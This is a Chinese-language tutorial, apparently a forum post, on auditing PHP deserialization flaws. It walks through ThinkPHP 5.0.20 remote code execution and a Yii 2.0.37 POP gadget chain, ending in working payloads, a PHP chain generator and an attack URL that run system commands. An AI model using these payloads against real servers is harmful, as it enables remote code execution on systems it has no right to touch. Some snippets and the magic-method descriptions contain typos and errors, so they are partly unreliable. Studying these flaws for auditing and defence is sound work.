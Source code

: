 0x01 前言
=======

之前在学习php代码审计入门的时候,找了很多逻辑漏洞和一些常规漏洞，比如sql注入，文件上传，xss，xxe，密码重置等。但是这些还都是皮毛，在一次参加ctf比赛中遇到代码审计的题目时，它是需要构造反序列化的，因为只能审计简单的漏洞所以拿它没有办法，于是才明白还是得把反序列化好好研究研究啊。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-210ac7262291d1f0af7a10a84743167065f02370.jpg)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-210ac7262291d1f0af7a10a84743167065f02370.jpg)

- - - - - -

0x02 php反序列化简单介绍
================

一.序列化和反序列化理解
------------

从程序代码是看,序列化就是讲对象或者数据结构这种不可直接传输的数据格式转换为可存储传输的格式进行传输，反序列化就是将它还原，通俗的讲的话，就比如你有一台台式电脑想要搬运到外地，但是如果整机带出去的话可能会造成硬件损坏,如显卡主板cpu等，但是如果将他们打包好放在各自的盒子里在运输就不会损坏了，这个过程就是序列化的过程，同理反序列化就是当收到这些零件后进行组装,还原让它可以再次进行使用。

二.php序列化漏洞相关魔术函数
----------------

1. \_\_serialize(),\_unserialize()：用于php序列化和反序列化
2. \_\_sleep():在对象被序列化之前运行
3. \_\_wekeup():在对象被反序列化之后调用
4. \_\_construct()：当一个对象被创建时调用
5. \_\_destruct():当一个对象销毁时被调用
6. \_\_toString():在对象被序列化之前运行
7. **\_\_**call():程序中调用未定义的方法时，\_\_call()方法会自动被调用。
8. \_\_callStaic():用静态方式中调用一个不可访问方法时调用
9. \_\_invoke():调用函数的方式调用一个对象时的回应方法
10. \_\_clone()，当对象复制完成时调用

0X03 php反序列化代码审计(thinkphp5.0,yii2.0.37)
=======================================

一、审计工具
------

phpstrom2020.1.3

二、漏洞影响范围
--------

thinkphp (5.x &lt; 5.1.31, &lt;= 5.0.23）  
yiiYii2（&lt; 2.0.38)

三、审计步骤
------

### thinkphp5.0.20远程代码执行漏洞

1.本次审计版本未5.0.20版本，漏洞点为Request.php中method方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-3c030b78a68cb3db998539d5e31d6ec303775d10.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-3c030b78a68cb3db998539d5e31d6ec303775d10.png)

2.跟进代码可以看出，当参数传入方法为post时，会去配置文件读取默认变量也就是\_method变量，且对传入方法变量内容未进行过滤，我们可以传入\_method=construct将方法覆盖为构造函数方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-15071ea946536e6c83cf920c6e334da09433f0b0.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-15071ea946536e6c83cf920c6e334da09433f0b0.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c1571e39f23e4f039acc72b1aaba653ec48469c7.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c1571e39f23e4f039acc72b1aaba653ec48469c7.png)

3.进入到构造函数，这里会初始化过滤参数的值用于全局过滤使用，且该值可控，可以传递\_method=construst,这个时候我们跟进到全局过滤函数filterValue()，当开启debug模式时,会进行$filter的变量覆盖，配置文件中默认为空，可以将$filte=system传入将$filter覆盖为system，再传入一个变量值为执行的命令如，aaa=whoami,即可调用call\_user\_func执行命令。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7263fca998d4edc3b93f7df24182fc4dddc840d1.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7263fca998d4edc3b93f7df24182fc4dddc840d1.png)

### yii2.0.37反序列化漏洞审计

1.由于刚刚搭建完成，yii本身并没有可以利用来反序列化的Action,所以添加controllers/TestController.php，代码如下

```php
<?php
namespace app\controllers;
use Yii;
use yii\web\Controleer;

class TestController extends Controller
{
    public function actionTtt(){
        $name = Yii:$app->request->get('data');
        return unserialize(base64_decode($name));
    }
}
```

2.根据师傅们爆出的漏洞入口点定位在：vendor/yiisoft/yii2/db/BatchQueryResult.php的reset方法内，当对象被销毁时，会调用reset()方法，当传入参数的值不为空的时候，会触发close()函数，但是调用的$this-&gt;close(),本类中并不存在此方法函数，由于参数在我们编写利用Action时是可控的,所以可以利用该处触发PHP魔术函数\_call()进行利用。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-52d92045573201b77fd8ca68c53611bf003238cc.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-52d92045573201b77fd8ca68c53611bf003238cc.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2c7a28b608df3f59e55e6cbf632e2d4903d8e294.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2c7a28b608df3f59e55e6cbf632e2d4903d8e294.png)  
3.接下来利用phpstrom全文查找利用到\_call的地方,在/vendor/fzaninotto/faker/src/Faker/Generator.php处可以利用，跟进方法format(),当传入一个方法名，传入一个数组，会利用call\_user\_func\_array(),熟悉PHP的小伙伴们都知道，这个函数非常危险，可以利用执行系统命令，各种函数命令等。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b7f53c9ccd74ea4076738e2478ab39b1fff15fba.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b7f53c9ccd74ea4076738e2478ab39b1fff15fba.png)

```php
public function format($formatter, $arguments = array())
{
    return call_user_func_array($this->getFormatter($formatter), $arguments);
}
```

4.在返回call\_user\_func\_array()函数中的第一个参数为getFormatter返回的值，跟进getFormatter()方法，它会判断formatters\[$formatter\]属性是否设置，然后返回该属性，说明该属性是可以让我们反序列化利用是控制的。

```php
public function getFormatter($formatter)
{
    if (isset($this->formatters[$formatter])) {
        return $this->formatters[$formatter];
    }
    foreach ($this->providers as $provider) {
        if (method_exists($provider, $formatter)) {
            $this->formatters[$formatter] = array($provider, $formatter);

            return $this->formatters[$formatter];
        }
    }
    throw new \InvalidArgumentException(sprintf('Unknown formatter "%s"', $formatter));
}
```

5.根据现在已有的条件寻找程序中能利用到的点，且要满足以下条件:  
1.方法的参数必须是自己类中存在的。  
2.方法需要具有命令执行的功能。

6.全文查找处2处合适的地方。  
vendor/yiisoft/yii2/rest/CreateAction.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6dae0fbc53e8b4dd8a58c72fbb04de045130040b.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6dae0fbc53e8b4dd8a58c72fbb04de045130040b.png)  
vendor/yiisoft/yii2/rest/IndexAction.php  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2958d69cdac196419d96ecb5ba7f7bd183e019a6.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2958d69cdac196419d96ecb5ba7f7bd183e019a6.png)

7.以下是本次的POP链:

```php
POP:yii\db\BatchQueryResult::__destruct()->reset()->close()->Faker\Generator::__call()->format()->call_user_func_array()->yii\rest\IndexAction::run->call_user_func()
```

### 四、漏洞复现

1.thinkphp5.0.20

漏洞paylaod：\_method=\_\_construct&amp;filter\[\]=system&amp;aaa=whoami  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a54ca4e88ca36f5e1ed9d166219d591c33b04be6.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-a54ca4e88ca36f5e1ed9d166219d591c33b04be6.png)

2.yii2.0.37

漏洞payload:

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = '1';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;
    class Generator{
        protected $formatters;

        public function __construct(){
            $this->formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;
    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
//进行序列化和base64编码
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
    //TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjE6InlpaVxyZXN0XENyZWF0ZUFjdGlvbiI6Mjp7czoxMToiY2hlY2tBY2Nlc3MiO3M6Njoic3lzdGVtIjtzOjI6ImlkIjtzOjY6Indob2FtaSI7fWk6MTtzOjM6InJ1biI7fX19fQ==
}
?>
```

访问payload:[http://ip/index.php?r=test/test&amp;data=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjA6InlpaVxyZXN0XEluZGV4QWN0aW9uIjoyOntzOjExOiJjaGVja0FjY2VzcyI7czo2OiJzeXN0ZW0iO3M6MjoiaWQiO3M6Njoid2hvYW1pIjt9aToxO3M6MzoicnVuIjt9fX19](http://ip/index.php?r=test/test&data=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjA6InlpaVxyZXN0XEluZGV4QWN0aW9uIjoyOntzOjExOiJjaGVja0FjY2VzcyI7czo2OiJzeXN0ZW0iO3M6MjoiaWQiO3M6Njoid2hvYW1pIjt9aToxO3M6MzoicnVuIjt9fX19)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-61cf6ccff6060aededb49a59a5f9fd69a10b0524.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-61cf6ccff6060aededb49a59a5f9fd69a10b0524.png)